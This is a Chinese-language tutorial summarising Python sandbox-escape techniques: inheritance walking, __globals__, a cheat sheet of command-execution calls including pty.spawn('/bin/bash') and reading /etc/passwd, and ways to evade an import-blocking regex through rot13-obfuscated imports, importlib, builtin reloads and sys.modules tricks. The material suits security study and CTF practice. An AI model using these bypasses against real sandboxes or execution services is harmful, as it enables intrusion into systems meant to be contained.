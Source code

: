 # python沙箱逃逸总结
沙箱逃逸,就是在给我们的一个代码执行环境下,脱离种种过滤和限制,最终成功拿到shell权限的过程。其实就是闯过重重黑名单，最终拿到系统命令执行权限的过程。以下是一些绕过python沙箱保护并执行任意命令的技巧，换衣批评指正。

## 内建模块、函数
当我们启动一个python解释器时，即使没有创建任何变量或者函数，还是会有很多函数可以使用，我们称之为内建函数，与之所属的模块叫做内建模块。在python中，初始builtins模块提供内建名称空间到内建对象的映射。dir()函数用于向我们展示一个对象的属性有哪些，在没有提供对象的时候，将会提供当前环境所导入的所有模块，我们可以看到初始模块有哪些：
```sh
>>> dir()
['__annotations__', '__builtins__', '__doc__', '__loader__', '__name__', '__package__', '__spec__']
// 在 2.x 版本中，内建模块被命名为 __builtin__，到了 3.x 就成了 __builtins__
>>>
```
可以看到__builtins__是做为默认初始模块出现的，那么用dir()命令看看__builtins__成员：
```sh
>>> dir(__builtins__)
['ArithmeticError', 'AssertionError', 'AttributeError', 'BaseException', 'BlockingIOError', 'BrokenPipeError', 'BufferError', 'BytesWarning', 'ChildProcessError', 'ConnectionAbortedError', 'ConnectionError', 'ConnectionRefusedError', 'ConnectionResetError', 'DeprecationWarning', 'EOFError', 'Ellipsis', 'EnvironmentError', 'Exception', 'False', 'FileExistsError', 'FileNotFoundError', 'FloatingPointError', 'FutureWarning', 'GeneratorExit', 'IOError', 'ImportError', 'ImportWarning', 'IndentationError', 'IndexError', 'InterruptedError', 'IsADirectoryError', 'KeyError', 'KeyboardInterrupt', 'LookupError', 'MemoryError', 'ModuleNotFoundError', 'NameError', 'None', 'NotADirectoryError', 'NotImplemented', 'NotImplementedError', 'OSError', 'OverflowError', 'PendingDeprecationWarning', 'PermissionError', 'ProcessLookupError', 'RecursionError', 'ReferenceError', 'ResourceWarning', 'RuntimeError', 'RuntimeWarning', 'StopAsyncIteration', 'StopIteration', 'SyntaxError', 'SyntaxWarning', 'SystemError', 'SystemExit', 'TabError', 'TimeoutError', 'True', 'TypeError', 'UnboundLocalError', 'UnicodeDecodeError', 'UnicodeEncodeError', 'UnicodeError', 'UnicodeTranslateError', 'UnicodeWarning', 'UserWarning', 'ValueError', 'Warning', 'WindowsError', 'ZeroDivisionError', '_', '__build_class__', '__debug__', '__doc__', '__import__', '__loader__', '__name__', '__package__', '__spec__', 'abs', 'all', 'any', 'ascii', 'bin', 'bool', 'breakpoint', 'bytearray', 'bytes', 'callable', 'chr', 'classmethod', 'compile', 'complex', 'copyright', 'credits', 'delattr', 'dict', 'dir', 'divmod', 'enumerate', 'eval', 'exec', 'exit', 'filter', 'float', 'format', 'frozenset', 'getattr', 'globals', 'hasattr', 'hash', 'help', 'hex', 'id', 'input', 'int', 'isinstance', 'issubclass', 'iter', 'len', 'license', 'list', 'locals', 'map', 'max', 'memoryview', 'min', 'next', 'object', 'oct', 'open', 'ord', 'pow', 'print', 'property', 'quit', 'range', 'repr', 'reversed', 'round', 'set', 'setattr', 'slice', 'sorted', 'staticmethod', 'str', 'sum', 'super', 'tuple', 'type', 'vars', 'zip']
>>>
```
看到很多熟悉的关键字。比如：```__import__```、str、len等。至此python解释器里能够直接使用某些函数，比如直接使用len()函数。

## 继承关系
python中对一个变量应用```__class__```方法能从一个变量实例转到对应的对象类型，python的继承机制,与java等语言不同,python允许多重继承。再得到对象类型后可进一步利用以下方法获取更多的继续类型。

```__base__``` //对象的一个基类，一般情况下是object，有时不是，这时需要使用下一个方法

```__mro__ ```//同样可以获取对象的基类，只是这时会显示出整个继承链的关系，是一个基类列表，object在最底层故在列表中的最后，通过__mro__[-1]可以获取到

```__subclasses__()``` //继承此对象的子类，返回一个列表

有这些类继承的方法，我们就可以从任何一个变量，回溯到基类中去，再获得到此基类所有实现的类，就可以获得到很多的类，进而调用更多的方法达到目的。

## 魔术函数
魔法方法是python内置方法，不需要主动调用，存在的目的是为了给python的解释器进行调用，几乎每个魔法方法都有一个对应的内置函数，或者运算符，当我们对这个对象使用这些函数或者运算符时就会调用类中的对应魔法方法，可以理解为重写内置函数。
```__dict__```: 类的静态函数、类函数、普通函数、全局变量以及一些内置的属性都是放在类的__dict__里的。对象的__dict__中存储了一些self.xxx的一些东西，内置的数据类型没有__dict__属性，每个类有自己的__dict__属性。

```__globals__```: 该属性是函数特有的属性，记录当前文件全局变量的值，如果某个文件调用了os、sys等库，但我们只能访问该文件某个函数或者某个对象，那么我们就可以利用globals属性访问全局的变量。该属性保存的是函数全局变量的字典引用。

```__getattribute__```: 实例、类、函数都具有的__getattribute__魔术方法。事实上，在实例化的对象进行操作的时候（形如：a.xxx/a.xxx()），都会自动去调用__getattribute__方法。因此我们同样可以直接通过这个方法来获取到实例、类、函数的属性。

## 支持命令执行的python库
```python
os.system("ls")
os.popen("ls").read()
commands.getstatusoutput("ls") 
commands.getoutput("ls")
commands.getstatus("file/path")
subprocess.call("ls", shell=True)
subprocess.Popen("ls", shell=True)
pty.spawn("ls")
pty.spawn("/bin/bash")
platform.os.system("ls")

#Import functions to execute commands
importlib.import_module("os").system("ls")
importlib.__import__("os").system("ls")
imp.load_source("os","/usr/lib/python3.8/os.py").system("ls")
imp.os.system("ls")
imp.sys.modules["os"].system("ls")
sys.modules["os"].system("ls")
__import__("os").system("ls")
import os
from os import *

#Other interesting functions
open("/etc/passwd").read()
open('/var/www/html/input', 'w').write('123')

#In Python2.7
execfile('/usr/lib/python2.7/os.py')
system('ls')
```
其中，open和read函数对于读取python沙盒中的文件以及编写一些可以绕过沙盒执行的代码非常有用。

## 沙盒逃匿思想
核心就是那几个魔术方法像是__mro__,```__base__```,这两个意思都是寻找父类，然后找到<type 'object'>(python2)或是<class 'object'>(python3)，然后寻找其子类，再去找命令执行或是文件读取的模块。
## **import相关**
对于防御者来说，最基础的思路，就是对代码的内容进行检查，最常见的方法呢，就是禁止引入敏感的包
```python
import re
code = open('code.py').read()
pattern  = re.compile('import\s+(os|commands|subprocess|sys)')
match = re.search(pattern,code)
if match:
    print "forbidden module import detected"
    raise Exception
```
用以上的几行代码，就可以简单的完成对于敏感的包的检测，我们知道要执行shell命令必须引入 os/commands/subprocess这几个包，对于攻击者来说该如何绕过呢，必须使用其他的引入方式
 * 1. import 关键字
 * 2. __import__函数
 * 3. importlib库

import 是一个关键字，因此，包的名字是直接以'tag'(标记)的方式引入的，但是对于函数和包来说，引入包的名字就是他们的参数，也就是说，将会以字符串的方式引入，我们可以对原始关键字做出种种处理来bypass掉源码扫描。
以__import__函数举例：
```python
f3ck = __import__("pbzznaqf".decode('rot_13'))
print f3ck.getoutput('ifconfig')
```
```python
#或者使用importlib 这一个库
import importlib
f3ck = importlib.import_module("pbzznaqf".decode('rot_13')
print f3ck.getoutput('ifconfig')
```
使用execfile：
```python
#pytho2
execfile('/usr/lib/python2.7/os.py')
system('ls')
#python3
with open('/usr/lib/python3.6/os.py','r') as f:
    exec(f.read())
system('ls')
```
```python
import sys
sys.modules['os']='/usr/lib/python2.7/os.py'
import os
```
## **```__builtins__```**
刚才的__import__函数同样也是一个builtin函数，常用的危险函数eval,exec,execfile也是__builtin__的
但是，有的时候你通过上述两种方式无法找到该模块，dir也不行。上述方法能够生效的前提是，在最开始有这样的程序语句import __builtin__，这个import的意义并不是把内建模块加载到内存中，因为内建早已经被加载了，它仅仅是让内建模块名在该作用域中可见。
如果把这些函数从__builtin__中删除,那么就不能够再直接使用了，解决办法：
```python
reload(__builtin__) #就可以重新得到完整的__builtin__模块了
# 但是reload也是__builtin__下面的函数，如果直接把它干掉，就没办法重新引入了，这个时候,我们该怎么呢
# 在python中,有一个模块叫做imp，然后我们就会重新得到完整的__builtin__模块了
import imp
imp.reload(__builtin__)
````
## **sys.modules**
sys.modules 是一个字典，里面储存了加载过的模块信息。如果 Python 是刚启动的话，所列出的模块就是解释器在启动时自动加载的模块。有些库例如 os 是默认被加载进来的，但是不能直接使用，原因在于 sys.modules 中未经 import 加载的模块对当前空间是不可见的。

如果将 os 从 sys.modules 中剔除，os 就彻底没法用了：
```python
>>> sys.modules['os'] = 'not allowed'
>>> import os
>>> os.system('ls')
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
AttributeError: 'str' object has no attribute 'system'
>>>
```
解决办法是删了sys.modules['os']，会让Python重新加载一次os
```python
del sys.modules['os']
import os
os.system('ls')
# 或者
execfile('/usr/lib/python2.7/os.py')
system('ls')
```
## 参考资料
【Escaping the Python Sandbox】https://zolmeister.com/2013/05/escaping-python-sandbox.html<br>
【Sandbox Escape with Python】https://prog.world/sandbox-escape-with-python/<br>
【】http://www.secwk.com/2019/10/17/11283/<br>
【】https://www.cnblogs.com/tr1ple/p/9415641.html<br>
【】https://www.freebuf.com/articles/system/203208.html<br>
